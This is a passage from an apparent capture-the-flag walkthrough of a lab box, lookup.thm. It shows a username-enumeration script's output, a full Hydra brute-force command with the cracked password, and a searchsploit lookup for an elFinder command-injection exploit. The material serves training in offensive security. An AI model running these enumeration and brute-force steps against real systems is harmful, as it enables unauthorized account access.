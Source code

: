 ```python
        print(f"Error: Username file not found at {username_file}", file=sys.stderr)
        sys.exit(1)
    except IOError as e:
        print(f"Error reading file: {e}", file=sys.stderr)
        sys.exit(1)
    except Exception as e:
        print(f"Unexpected error: {e}", file=sys.stderr)
        sys.exit(1)

if __name__ == "__main__":
    enumerate_usernames()
```
saved it as a python file
executed
```
chmod +x usernamesenum.py
python3 usernamesenum.py
```
output
```zsh
Testing 10177 usernames...
admin
jose
```

 used hydra as to brute on `jose`
 ```
 hydra -l jose -P /usr/share/wordlists/rockyou.txt $ip http-post-form -f -W 5 -t 64 "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again"
 ```
 output
 ```zsh
 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-10 03:14:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 262 login tries (l:1/p:262), ~17 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong
[80][http-post-form] host: lookup.thm   login: jose   password: password123
[STATUS] attack finished for lookup.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-10 03:14:14
 ```
 got the password as `password123`

upon logging in it goes to a sub domain` http://files.lookup.thm/`
 added to `/etc/hosts`
 saw many files
 downloaded the some and tried ssh with hydra- failed
 check the version of file manger
 saw that 
 ```
 ### elFinder
Web file manager
Version: 2.1.47
protocol version: 2.1047
jQuery/jQuery UI: 3.3.1/1.12.1
 ```
 search for exploits:
 ```
 searchsploit elFinder 2.1.47
 ```
 output
 ```zsh

elFinder 2.1.47 - 'PHP connector' Command Injection                                                                                                                                               | php/webapps/46481.py
 ```